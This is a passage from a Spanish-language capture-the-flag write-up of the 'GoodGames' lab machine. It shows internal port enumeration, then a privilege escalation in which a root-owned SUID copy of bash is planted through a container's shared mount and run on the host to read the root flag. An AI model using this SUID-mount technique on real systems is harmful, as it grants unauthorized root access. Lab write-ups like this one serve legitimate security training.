 Tengo acceso a otro nuevo segmento

```null
augustus@GoodGames:~$ hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:feb9:c879 
```

Tiene otros varios puertos internos abiertos. Muechos de ellos son páginas web

```null
augustus@GoodGames:/tmp$ ss -nlpt
State                       Recv-Q                      Send-Q                                            Local Address:Port                                              Peer Address:Port                      
LISTEN                      0                           128                                                   127.0.0.1:8000                                                   0.0.0.0:*                         
LISTEN                      0                           70                                                    127.0.0.1:33060                                                  0.0.0.0:*                         
LISTEN                      0                           128                                                   127.0.0.1:3306                                                   0.0.0.0:*                         
LISTEN                      0                           128                                                   127.0.0.1:8085                                                   0.0.0.0:*                         
LISTEN                      0                           128                                                  172.19.0.1:22                                                     0.0.0.0:*                         
LISTEN                      0                           128                                                           *:80                                                           *:*      
```

Abuso de la montura ya existente para crear una ```bash``` SUID y al volverme a conectar a la máquina real ejecutarla

```null
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/tmp# cd /home/augustus/
root@3a453ab39d3d:/home/augustus# chmod u+s bash
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Mar 21 10:25:35 2023 from 172.19.0.2
augustus@GoodGames:~$ ./bash -p
bash-5.1# cat /root/root.txt
068ab917361d3f06a32bd05d5ad85a17
bash-5.1# 
```